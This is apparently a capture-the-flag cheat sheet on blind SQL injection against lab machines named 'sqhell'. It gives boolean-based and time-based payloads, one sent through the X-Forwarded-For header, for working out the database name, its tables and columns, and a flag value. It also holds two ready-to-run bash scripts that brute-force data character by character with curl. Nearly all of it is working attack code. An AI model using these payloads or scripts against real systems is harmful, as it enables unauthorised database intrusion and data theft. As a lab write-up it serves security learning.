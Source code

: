 # Blind SQL Injection > ‘Boolean based’

## Determine the length of DB: 
> 
```sql
> admin' AND LENGTH(DATABASE())=8-- - (if return false if correct and the lenght is 8)
> we can try with time sleep to confirm this:
> admin' AND LENGTH(DATABASE())=8 and sleep(20)-- -
```

## Extracting the database name:
```sql
admin' and (select substr(database(),1,1))='s'-- -
```

## Use this bash script to extract Database, tables, columns, and the flag. Just change the payload:
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.68.51/register/user-check?username=admin"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '{' '}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}
            payload="%27%20and%20(select%20substr(database(),$position,1))=%27$character%27--%20-"
            url_payload=$main_url$payload
            response=$(curl -s "$url_payload")
            echo -ne "\r\033[1;34m[+] Retrieving data:[\033[0m$database$character]"

            if [[ $response == *"false"* ]]; then
                database+=$character
                break
            fi

        done
       
    done

    echo -e "\n\033[1;32mData found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
admin' and (select substr(table_name,1,1) from information_schema.tables where table_schema='sqhell_3' limit 1)='f'-- -
```
## Check columns:
```sql
admin' and (select substr(column_name,1,1) from information_schema.columns where table_schema='sqhell_3' and table_name='flag' limit 1,1)='f'-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
admin' and (select substr(flag,1,1) from flag limit 1)='t'-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> admin' and (select length(flag) from flag limit 1)=43-- -
```

# Blind SQL Injection > ‘Time based’ > X-Forwarded-For

## Determine the length of DB: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND LENGTH(DATABASE())=8-- -
```

## Extracting the database name:
```sql
X-Forwarded-For:1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), 1, 1))='s'-- -
```

** Use this bash script to extract Database, tables, columns, and the flag. Just change the payload:
```bash
#!/bin/bash

trap ctrl_c INT

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}

main_url="http://10.10.65.29"
characters=( {a..z} {0..9} '!' '@' '#' '$' '%' '^' '&' '*' '(' ')' '-' '_' '=' '+' '[' ']' '\{' '\}' ';' ':' '<' '>' ',' '.' '?' '/' '\\' '|' '~')

function makeRequest() {

    database=""
    total_positions=8
    total_characters=${#characters[@]}

    echo -e "\n\033[1;32mStarting BruteForce\033[0m\n"

    for ((position=1; position<=total_positions; position++)); do

        for ((i=0; i<total_characters; i++)); do

            character=${characters[i]}

            payload="1' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND (SELECT substr(database(), $position, 1))='$character'-- -"
            #url_payload=$main_url$payload
            echo -ne "\r\033[1;34m[+] Extracting the database name:[\033[0m$database$character]"
            time_start=$(date +%s.%N)
            response=$(curl -s -H "X-Forwarded-For:$payload" "$main_url")
            time_stop=$(date +%s.%N)

            duration=$(echo "$time_stop - $time_start" | bc )


            if (( $(echo "$duration >= 5" | bc -l) )); then
                database+="$character"
                break
            fi

        done

    done

    echo -e "\n\033[1;32mdatabase found:\033[0m \033[1;32m$database\033[0m\n"
}

makeRequest
```

## Check tables:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.tables WHERE table_schema='sqhell_1' AND SUBSTR(table_name, 1, 1) = 'f')-- -
```
## Check columns:
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM information_schema.columns WHERE table_schema='sqhell_1' and table_name='flag' AND SUBSTR(column_name, 1, 1) = 'f')-- -
```
## Enumerate the column selected ( Get the Flag)
```sql
X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```

## To determine the length of the "flag" column from the "flag" table, you can use the following SQL query: 
> 
```sql
> X-Forwarded-For:1' AND (SELECT SLEEP(5) FROM flag where length(flag) = 43)-- -
```
